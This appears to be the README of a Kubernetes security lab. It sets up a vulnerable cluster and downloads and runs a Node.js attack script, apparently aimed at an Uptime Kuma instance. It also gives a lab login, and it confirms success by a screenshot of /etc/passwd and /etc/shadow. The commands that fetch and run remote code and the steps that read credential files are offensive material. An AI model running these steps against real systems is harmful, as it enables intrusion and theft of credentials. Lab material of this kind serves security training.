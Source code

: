 # Setup

```bash
kubectl apply -f https://k8s.adriansoftware.de/attacks/10/setup.yaml
# nodejs for running the attack
curl -o- https://raw.githubusercontent.com/nvm-sh/nvm/v0.40.1/install.sh | bash
export NVM_DIR="$([ -z "${XDG_CONFIG_HOME-}" ] && printf %s "${HOME}/.nvm" || printf %s "${XDG_CONFIG_HOME}/nvm")"
[ -s "$NVM_DIR/nvm.sh" ] && \. "$NVM_DIR/nvm.sh" # This loads nvm
nvm install --lts

curl https://k8s.adriansoftware.de/attacks/10/kuma-attack.js -o kuma-attack.js
npm install socket.io-client

# go to (masterip) browser 192.168.122.216:32711 -> create account -> create dummy type=REAL BROWSER to download chromium already
```

User: `k8s`
Password: `Kubernetes1`

# Attack

```bash
node kuma-attack.js --masterip 192.168.122.216
```

# Confirm

go to broser -> click on monitor -> see screenshot of /etc/passwd and /etc/shadow -> attack successfull
